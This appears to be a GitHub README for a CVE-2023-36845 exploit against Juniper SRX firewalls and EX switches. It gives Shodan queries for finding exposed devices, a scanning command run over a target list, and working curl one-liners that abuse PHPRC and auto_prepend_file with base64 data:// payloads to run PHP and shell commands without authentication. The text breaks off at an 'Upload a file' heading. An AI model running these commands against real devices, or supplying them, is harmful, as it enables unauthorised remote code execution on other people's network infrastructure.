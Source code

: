 <h1 align=center>CVE-2023-36845</h1>
<p align="center">
    <img width=60% height=60% src="https://github.com/kljunowsky/CVE-2023-36845/assets/104329412/d8f4be14-148b-44ff-a294-25662f6007a6">
</p>



## Description

CVE-2023-36845 represents a notable PHP environment variable manipulation vulnerability that impacts Juniper SRX firewalls and EX switches. While Juniper has categorized this vulnerability as being of medium severity, in this article, we will elucidate how this singular vulnerability can be leveraged for remote, unauthenticated code execution.

## Search - Shodan
```
title:"Juniper Web Device Manager"
```
<img width="1840" alt="image" src="https://github.com/kljunowsky/CVE-2023-36845/assets/104329412/5b4224e1-7e5b-45fe-b2ee-0b1658c20b0d">

```
title:"Juniper" http.favicon.hash:2141724739
```

<img width="1840" alt="image" src="https://github.com/kljunowsky/CVE-2023-36845/assets/104329412/84aca479-7b9e-4a4d-84f0-8e678c367548">

## Usage 🛠
Detection
```
python3 CVE-2023-36845.py -f targets.txt -o output.txt
```

## RCE 🧨
### Option 1 
Utilizing any protocol wrapper in conjunction with `auto_prepend_file` is feasible. The most suitable choice for this operation is the `data://` protocol, which allows inline provision of the "secondary file". Here's a sophisticated representation of this exploit, executing the embedded `<? phpinfo(); ?>` within the `data://` scheme:

```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'
```
Execute `whoami` command

`<?php shell_exec('whoami'); ?>`
```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD9waHAgc2hlbGxfZXhlYygnd2hvYW1pJyk7ID8+Cg=="'
```

### Option 2
Upload a file
